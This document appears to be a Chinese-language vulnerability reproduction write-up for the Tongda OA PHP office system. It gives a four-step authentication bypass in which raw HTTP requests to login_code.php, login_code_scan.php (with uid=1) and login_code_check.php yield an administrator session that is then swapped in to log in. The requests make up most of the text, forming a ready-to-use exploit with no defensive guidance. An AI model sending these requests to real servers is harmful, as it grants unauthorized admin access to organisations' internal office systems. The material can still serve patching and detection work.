 ```yaml
---
categories:
    - tongdaOA
tags:
    - tongdaOA
    - PHP 
---
```


## 漏洞复现
### 第一步：

首先访问
```
/ispirit/login_code.php
```
获取codeuid

![image](https://note.youdao.com/yws/public/resource/7a2b0c991696732c9fa1daf6acc3885e/C58880F7DC0B4649BC0481C00D586CDC?ynotemdtimestamp=1593335082646)
```
POST /ispirit/login_code.php HTTP/1.1
Host: XXXXX
Content-Length: 0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Origin: http://xxxx
Content-Type: text/plain
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://xxxx/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=qo51ofmbfn20hphpgd9dd99cn4; KEY_RANDOMDATA=13577
Connection: close


```
![image](https://note.youdao.com/yws/public/resource/7a2b0c991696732c9fa1daf6acc3885e/51AA0E6D451B4FE39CBE0DBC79A0F244?ynotemdtimestamp=1593335082646)

### 第二步：

```
/general/login_code_scan.php
```
POST:

```
source=pc&type=confirm&codeuid={xxx}&uid=1&
```
如果status=1证明赋值成功，status=0证明赋值失败

```
POST /general/login_code_scan.php HTTP/1.1
Host: xxx
Content-Length: 78
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://xxxx
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://xxx/ispirit/login_code.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=qo51ofmbfn20hphpgd9dd99cn4; KEY_RANDOMDATA=13577
Connection: close

source=pc&type=confirm&codeuid={4E2273C1-1072-D2E5-7203-A24152ADFEA4}&uid=1&

```

![image](https://note.youdao.com/yws/public/resource/7a2b0c991696732c9fa1daf6acc3885e/28F3D6889D4144B48C730E267243E132?ynotemdtimestamp=1593335082646)

![image](https://note.youdao.com/yws/public/resource/7a2b0c991696732c9fa1daf6acc3885e/F083B62A03B245E7BF08E63002E95586?ynotemdtimestamp=1593335082646)

### 第三步：

删除cookie,使用get请求，会返回session：

```
/ispirit/login_code_check.php?codeuid={xxx}
```

```
GET /ispirit/login_code_check.php?codeuid={81F999C5-DB1E-3E6B-471F-653D17F34F57} HTTP/1.1
Host: xxx
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


```

![image](https://note.youdao.com/yws/public/resource/7a2b0c991696732c9fa1daf6acc3885e/403B17D3EE5D497AAC897103E50DAAEF?ynotemdtimestamp=1593335082646)


### 第四步

替换session登录

```
/general/index.php
```


![image](https://note.youdao.com/yws/public/resource/7a2b0c991696732c9fa1daf6acc3885e/1B9065422DAE479D9529AE4051B1E13E?ynotemdtimestamp=1593335082646)


#### 参考

```
https://xz.aliyun.com/t/7704
```
